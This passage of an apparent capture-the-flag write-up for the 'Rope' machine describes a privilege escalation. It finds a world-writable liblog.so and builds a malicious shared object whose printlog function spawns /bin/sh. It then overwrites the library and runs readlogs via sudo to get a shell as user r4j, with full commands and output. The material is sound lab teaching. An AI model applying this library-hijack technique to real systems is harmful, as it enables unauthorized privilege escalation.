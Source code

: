 Also, checking out all there, the standard `libc` and `ld` (linker) libraries are symbolic links to the actual binaries. But `liblog.so` is actually sitting at that path, and writable by anyone!

```

john@rope:/$ ls -l /lib/x86_64-linux-gnu/liblog.so /lib/x86_64-linux-gnu/libc.so.6 /lib64/ld-linux-x86-64.so.2
lrwxrwxrwx 1 root root    32 Apr 16  2018 /lib64/ld-linux-x86-64.so.2 -> /lib/x86_64-linux-gnu/ld-2.27.so
lrwxrwxrwx 1 root root    12 Apr 16  2018 /lib/x86_64-linux-gnu/libc.so.6 -> libc-2.27.so
-rwxrwxrwx 1 root root 15984 Jun 19 19:06 /lib/x86_64-linux-gnu/liblog.so

```

### Path 1: Create an so

I’ll create a simple c program and upload it to Rope:

```

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void printlog() {
    execve("/bin/sh", NULL, NULL);
}

```

This code has the `printlog` function, and it just runs a shell. I’ll compile it into a shared library, and despite some warnings, it makes a shared object file:

```

john@rope:/dev/shm$ gcc -shared -o liblog-evil.so -fPIC liblog-evil.c
liblog-evil.c: In function ‘printlog’:
liblog-evil.c:6:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
     execve("/bin/sh", NULL, NULL);
     ^~~~~~
john@rope:/dev/shm$ file liblog-evil.so             
liblog-evil.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=744ac31a55faeae58bd3661f32f48436fecbad2f, not stripped

```

Now I’ll copy it into place of the library, and run `readlogs`:

```

john@rope:/dev/shm$ cp liblog-evil.so /lib/x86_64-linux-gnu/liblog.so
john@rope:/dev/shm$ sudo -u r4j /usr/bin/readlogs
$ id
uid=1000(r4j) gid=1000(r4j) groups=1000(r4j),4(adm)

```
